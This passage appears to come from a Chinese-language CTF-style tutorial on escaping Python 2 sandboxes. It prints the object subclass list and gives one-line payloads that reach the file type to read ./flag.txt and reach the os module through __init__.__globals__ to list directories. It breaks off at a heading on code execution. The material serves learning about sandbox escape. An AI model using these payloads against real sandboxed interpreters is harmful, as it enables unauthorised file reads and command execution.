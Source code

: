 ```
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>]

```

而在这所有子类中file类可读取文件，我们可以通过index查找file类的位置（file类只在python2存在）

```
>>> [].__class__.__base__.__subclasses__().index(file)
40
```

我们可用下列代码读取目标文件

```
[].__class__.__base__.__subclasses__()[40]('./flag.txt').read()
```

我们可用下列代码引用指定模块（eg:os模块）

```
>>> [].__class__.__base__.__subclasses__()[71].__init__.__globals__['os']
<module 'os' from '/usr/lib/python2.7/os.pyc'>

```

上面的语句相当于os我们便可像往常用os来使用了，比如使用os模块的listdir

```
[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].listdir("./")

```

上面语句等同于使用os.listdir("./")

#### Python中可以利用的方法和模块

1.任意代码或者命令执行

#### _ import _()函数
